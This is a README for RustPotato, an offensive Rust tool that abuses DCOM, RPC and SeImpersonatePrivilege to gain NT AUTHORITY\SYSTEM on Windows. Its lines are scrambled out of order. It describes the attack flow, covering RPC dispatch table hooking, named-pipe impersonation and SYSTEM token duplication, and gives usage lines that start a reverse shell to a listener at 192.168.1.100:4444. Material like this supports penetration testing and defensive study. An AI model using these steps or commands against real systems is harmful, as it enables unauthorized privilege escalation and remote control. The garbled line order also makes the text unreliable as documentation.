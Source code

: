 
                     Specify the shell to be used in the reverse shell (optional, default is cmd).
    RustPotato.exe "cmd.exe /c whoami"
    RustPotato.exe -h 192.168.1.100 -p 4444
    RustPotato.exe -h 192.168.1.100 -p 4444 -c powershell
   RustPotato replaces the first entry in the `RPC_DISPATCH_TABLE` with a custom function pointer, enabling interception and manipulation of specific RPC calls.
   The tool scans the memory of `combase.dll` to find the `RPC_SERVER_INTERFACE` structure, a critical component for managing RPC communications through the OXID Resolver.
  -c <cmd|powershell>
  -h <LHOST>         Specify the IP address of the listener for the reverse shell.
  -p <LPORT>         Specify the port of the listener for the reverse shell.
  A named pipe (e.g., `\\.\pipe\RustPotato`) is created with unrestricted access, serving as the endpoint for client connections.
  During impersonation, RustPotato locates and duplicates a token associated with the `NT AUTHORITY\SYSTEM` account.
  Execute a command line or start a reverse shell.
  Execute a command line:
  Removes the custom function pointer from the `RPC_DISPATCH_TABLE` and restores the original state in `combase.dll`.
  RustPotato crafts and unmarshals a COM object, compelling **RPCSS** to establish a connection with the named pipe.
  RustPotato features a TCP-based reverse shell based on [Rustic64Shell](https://github.com/safedv/Rustic64Shell). It leverages Winsock APIs for network communication and indirect NT APIs for pipe-based I/O redirection, enabling command execution through `cmd` or `powershell`.
  RustPotato leverages indirect NTAPI calls for various operations, including token handling and manipulation.
  RustPotato uses the duplicated token to execute a specified command, leveraging `CreateProcessWithTokenW`.
  RustPotato.exe [command line] | [options]
  Start a reverse shell with powershell:
  Start a reverse shell with the default shell (cmd):
  Stops the named pipe server, releasing all associated resources and handles.
  The unmarshalled object invokes RPC calls that traverse the hooked dispatch table, allowing RustPotato to intercept and manipulate the interactions.
  When **RPCSS** connects to the named pipe, RustPotato impersonates the client using `ImpersonateNamedPipeClient` to assume its security context.
  With reverse shell options (`-h` and `-p`), RustPotato connects to a listener and executes commands through `cmd` or `powershell`.
  ```
  ```bash
  cargo build --release
  cargo build --release --features verbose
# RustPotato
## Credits
## Disclaimer
## Key Features
## Overview
## Usage
### 1. **Initialize and Hook RPC Context**
### 2. **Start Named Pipe Server and Trigger RPCSS**
### 3. **Execute Command or Establish Reverse Shell**
### 4. **Restore State and Cleanup**
### Build Options
### Help
**RustPotato** is a Rust-based implementation of [GodPotato](https://github.com/BeichenDream/GodPotato), a privilege escalation tool that abuses **DCOM** and **RPC** to leverage **SeImpersonatePrivilege** and gain `NT AUTHORITY\SYSTEM` privileges on Windows systems.
- **Basic build** (only the process output is printed):
- **Build with verbose logging**:
- **Create Named Pipe**:  
- **Establish a Reverse Shell**:  
- **Execute a Command**:  
- **Impersonate Client**:  
- **Indirect NTAPI**:  
- **Restore RPC Dispatch Table**:  
- **Retrieve SYSTEM Token**:  
- **TCP-based Reverse Shell**:  
- **Terminate Pipe Server**:  
- **Trigger RPCSS**:  
- **Unmarshal COM Object**:  
- **`verbose`**: Enables detailed logging during execution.
- [BeichenDream](https://github.com/BeichenDream) for his work on [GodPotato](https://github.com/BeichenDream/GodPotato), which made this port possible!
- [Resolving System Service Numbers Using The Exception Directory by MDsec](https://www.mdsec.co.uk/2022/04/resolving-system-service-numbers-using-the-exception-directory/) for their insights on resolving SSNs.
---
1. **Locate `RPC_SERVER_INTERFACE` Structure**:  
2. **Hook RPC Dispatch Table**:  
> **Note:** RustPotato supports only x86_64 targets (MSVC or GNU).
Always respect ethical guidelines and adhere to legal frameworks while conducting security research (or, honestly, in everything you do).
Below is an overview of its execution flow, highlighting key operations at each step:
Description:
Examples:
Options:
RustPotato provides the following features:
Special thanks to:
The named pipe server plays a central role in impersonation and privilege escalation:
Usage:
```
```text
